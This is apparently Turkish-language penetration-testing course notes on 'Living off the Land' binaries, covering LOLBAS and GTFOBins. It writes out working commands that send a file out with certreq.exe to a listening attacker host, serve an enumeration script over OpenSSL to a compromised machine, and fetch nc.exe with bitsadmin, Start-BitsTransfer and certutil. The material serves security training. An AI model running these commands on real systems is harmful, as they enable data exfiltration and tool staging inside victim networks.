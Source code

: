 ```yaml
---
icon: material/circle-small
---
```


# Living off The Land

LOLBins (Living Off The Land Binaries) terimi, bir saldırganın, orijinal amacının ötesinde eylemler gerçekleştirmek için kullanabileceği ikili dosyaları ifade etmek için kullanılır. Aşağıda verilen siteler bahsedilen ikili dosyalar hakkında bilgi toplamaktadır:

1. [LOLBAS](https://lolbas-project.github.io)
2. [GTFOBins](https://gtfobins.github.io/)

## Using the LOLBAS and GTFOBins Project

### LOLBAS

LOLBAS (Living Off The Land Binaries, Scripts and Libraries) sitesinde indirme ve yükleme işlevlerini aramak için `/download` ve `/upload` filtrelerini kullanabiliriz.

Örnek olarak [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) aracını ele alalım. Netcat aracını kullanarak gelen trafiği, saldırı makinemizdeki bir port üzerinden dinlememiz ve ardından bir dosya yüklemek için `CertReq.exe` aracını çalıştırmamız gerekiyor:

```batch
certreq.exe -Post -config http://192.168.49.128 c:\windows\win.ini
```

Bu işlem, dosyayı Netcat oturumumuza gönderecektir:

```bash
sudo nc -lvnp 80
```

```text title="Output"
listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Eğer `CertReq.exe` aracını çalıştırırken hata alırsanız kullandığınız sürüm POST parametresini içermiyor olabilir. Güncel sürümü [buradan](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) indirip tekrar deneyebilirsiniz.

### GTFOBins

LOLBAS sitesinde indirme ve yükleme işlevlerini aramak için `+file download` ve `+file upload` filtrelerini kullanabiliriz.

Örnek olarak [OpenSSL](https://www.openssl.org/) aracını ele alalım. Öncelikle bir sertifika oluşturmamız gerekiyor:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Ardından sunucuyu başlatıyoruz:

```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Artık ele geçirilmiş bilgisayardan dosyayı indirebiliriz:

```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land Tools

### Bitsadmin Download function

BITS ([Background Intelligent Transfer Service](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)), HTTP sitelerinden ve SMB paylaşımlarından dosya indirmek için kullanılabilir. Bu servis, kullanıcının ön plandaki çalışması üzerindeki etkiyi en aza indirmek için bilgisayar ve ağ kullanımını akıllıca kontrol eder:

```batch
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell, BITS ile etkileşime olanak tanır, dosya indirme ve yükleme işlemleri gerçekleştirebilir, kimlik bilgilerini destekler ve belirtilen proxy sunucularını kullanabilir:

```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil

Certutil aracı dosyaları indirmek için kullanılabilir. Tüm Windows sürümlerinde mevcuttur ve Windows için popüler bir dosya aktarım tekniğidir. Ancak AMSI (Antimalware Scan Interface), bu araçla yapılan kötü niyetli kullanımları algılamaktadır:

```batch
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
